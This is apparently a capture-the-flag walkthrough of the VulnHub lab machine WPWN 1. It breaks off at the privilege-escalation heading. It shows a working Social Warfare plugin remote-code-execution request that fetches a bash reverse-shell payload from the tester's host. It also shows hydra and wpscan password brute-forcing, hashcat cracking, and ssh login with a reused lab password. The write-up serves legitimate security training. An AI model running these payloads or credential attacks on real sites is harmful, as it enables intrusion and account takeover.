#  WPWN 1

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [WPWN: 1](https://www.vulnhub.com/entry/wpwn-1,537/)
- CVSS3 : [AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:P/RL:O/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*This is an easy box. It's vmware based, i dont know if it works on VB you can test it if you want. There are 2 flags under /home/$user/user.txt & /root/root.txt. No stupid ctfy/guessy stuff. Remember: your goal is to read the root flag, not just to take a root shell. Feel free to DM me on discord for any tip/hint.*

## Summary
 WPWN: 1 starts with a misconfigured WordPress blogsite, all the requests are made to a localhost IP into the server. but if I try to get the resources with the available IP, I can get it, then I need to redirect all traffic with `iptables` from the localhost IP requests to the current available IP. After use `wpscan` I find the `admin` user and the plugin vulnerability `Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution`, and the WPscan website has a PoC available, then I can confirm that the vulnerabilitie exists and I can get a reverse shell with the user `www-data` and get the user flag in the `takis` home directory. In the server, I find the MySQL credentials in the `wp-config.php` file. The MySQL password is been reused by the user `takis`, then I can perform a lateral movement and get the shell of the `takis` user. The user `takis` belongs to several systems groups, and I can run any command as the root user, then I spawn a root shell. And the challenge requires finding the secret root flag, after reading the root `.bash_history` I find the root flag in the `/usr/games/USB/root` path.

1. CWE-94: Improper Control of Generation of Code ('Code Injection')
2. CWE-521: Weak Password Requirements
3. CWE-269: Improper Privilege Management

#VMWare #Nmap #HashID #HashCat #Python #MySQL #WordPress #wordpress-plugin #WPScan #Hydra #iptables #lsblk

## Enumeration
When I run the target machine in VMware Workstation 17 Player (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.56.1/24
```
Then I compare the MAC with that of the target VMware configuration, and I find out that the IP is `192.168.56.105`:



And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.56.105
# Nmap 7.92 scan initiated Tue Jan 24 08:57:24 2023 as: nmap -sV -oA scans/nmap-tcp-scan 192.168.56.105
Nmap scan report for 192.168.56.105
Host is up (0.057s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jan 24 08:57:33 2023 -- 1 IP address (1 host up) scanned in 9.14 seconds

```
And I identify 2 open ports, the `OpenSSH 7.9p1` service runs in `22` TCP, and `Apache httpd 2.4.38` service runs in `80` TCP, and it runs on `Debian 10+deb10u2`.

When I use the `nmap` script `http-enum`:
```shell
$ nmap -p80 -sV --script=http-enum -oA scans/nmap_http_scan 192.168.56.105
...SNIPPED...
| http-enum:
|   /wordpress/: Blog
|   /robots.txt: Robots file
|_  /wordpress/wp-login.php: Wordpress login page.
...SNIPPED...
```
Then I can see that there is an endpoint to `/robots.txt`, and a `WordPress`  Blog.

When I visit `192.168.56.105/robots.txt`, Then I find a troll message:
```html
/secret
# haha, just kidding. Focus on real stuff ma boi
```
And the `/secret` endpoint does not exist.

## Normal use case
Misconfigured WordPress  blog site.

Given I access `http://192.168.56.105/wordpress/`, then I can see



But I can not interact with the blog correctly, and it is because the resources are requested to IP `192.168.2.12`, but it seems to be a localhost IP of the target:



## Dynamic detection
Unauthenticated remote code execution in Social Warfare 3.5.2 plugin.

Given I access `http://192.168.56.105/wordpress/`, But all the resources are requested to IP `192.168.2.12`, then I check if I can access those resources from `192.168.56.105`, and it works. When I search in DuckDuckGo `redirect the request of one IP to another`, then I find a post [about how to redirecting network traffic to a new ip usin iptables](https://www.debuntu.org/how-to-redirecting-network-traffic-to-a-new-ip-using-iptables/)



And with this post of [using iptables to redirect ip address](https://superuser.com/questions/681705/using-iptables-to-redirect-ip-address):


And they use the `iptables` command, and I start reading to know how the command works.
When I check my `/etc/sysctl.conf`:
```shell
$ grep "ip_forward" /etc/sysctl.conf
#net.ipv4.ip_forward=1
```
When I use the `iptables` command to redirect `192.168.1.12` to `192.168.56.105`
```shell
$ sudo iptables -t nat -A OUTPUT -d 192.168.1.12 -j DNAT \
> --to-destination 192.168.56.105
```
And I run:
```shell
$ sudo iptables -t nat -A POSTROUTING -j MASQUERADE
```
Then I check the `http://192.168.1.12/wordpress` in the browser, and I can correctly see the blog site :


And I start to enumerate WordPress, When I use the `wpscan` command, and I already have a token after registering at https://wpscan.com/, and I have it stored in my env vars like `$WPSCAN_API`:
```shell
$ wpscan --url http://192.168.1.12/wordpress/ --enumerate u, ap \
> --api-token $WPSCAN_API

...SNIPPED...
[i] User(s) Identified:
[+] admin
| Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Confirmed By: Login Error Messages (Aggressive Detection)
...SNIPPED...
```
Then I identify the `admin` user, but I don't identify a vulnerability that I can exploit, and I decided to brute force the `admin` login.
When I use the `hydra` command with a list of Seclist:
```shell
$ hydra -l admin -P 10k-most-common.txt 192.168.1.12 http-form-post \
> '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=
> Location'
```
But it  can not find the password, then I search WordPress in Hacktricks, and[ I find a better use of `wpscan`](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#automatic-tools):



When I run the `wpscan` command, and I use a list of Seclits:
```shell
$ wpscan -U admin --rua -e ap,at,tt,cb,dbe,u,m --url \
> http://192.168.1.12/wordpress/ [--plugins-detection aggressive] \
> --api-token $WPSCAN_API --passwords probable-v2-top1575.txt
```
Then I get quite a large output, and I start reading it :



And I identify that the `Social Warfare 3.5.2 plugin` was detected, and it is vulnerable to `Unauthenticated Remote Code Execution`:
```shell
...
[!] Title: Social Warfare <= 3.5.2 - Unauthenticated Remote Code Execution
  Fixed in: 3.5.3
  References:
  - https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618
  - https://www.webarxsecurity.com/social-warfare-vulnerability/
...
```
When I read the reference links in the output above, then [I find a PoC in the WPScan website](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618)



When I try the PoC, then it works :



And I can conclude that the blog is vulnerable, and I can perform unauthenticated remote code execution.

## Exploitation
Reverse shell, reused password, and sudo privileges to get the root shell.

Given I access `http://192.168.56.105/wordpress/`, and although all resources are requested from the target `localhost`, and the IP is `192.168.2.12`, and I can redirect the requests from `192.168.12` to `192.168.56.105`, And the blog site uses the `Social Warfare 3.5.2 plugin`, and this plugin is vulnerable to unauthenticated remote code execution, then I can run a reverse shell.

When I use the following payload:
```shell
$ echo "<pre>system('bash -c \'bash -i >& /dev/tcp/192.168.56.101/1234
> 0>&1\'')</pre> " > rs.txt
```
And I open the `HTTP` service with Python3:
```shell
$ python3 -m http.server 8000
```
And I open the listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I make the following `GET` request:
```shell
$ curl "http://192.168.1.12/wordpress/wp-admin/admin-post.php?
> swp_debug=load_options&swp_url=http://192.168.56.101:8000/rs.txt"
```
Then I can get a reverse shell of the user `www-data`:



When I explore the server., then I find the user flag:



## Lateral movement

When I read the `wp-config.php` file, then I find the MySQL credentials:



When I use the `mysql` command, and the credentials `wp_user:R3&]vzhHmMn9,:-5`
```shell
$ www-data@wpwn:/var/www/html/wordpress$ mysql -h localhost -u
> 'wp_user' -p
```

Then I can connect to MySQL database:



And I find the `admin` password hash:



When I store it in the `admin.hash` file, and I try to crack it with the `hashcat` command, and the Rockyou list:
```shell
$ hashcat -a 0 -m 400 admin.hash rockyou.txt --force
```
But it takes several minutes, and meanwhile, I try to reuse the same MySQL password. When I use the `ssh` command with the user `takis`:
```shell
$ sshpass -p 'R3&]vzhHmMn9,:-5' ssh takis@192.168.56.105
```
Then it works:



## Privilege escalation

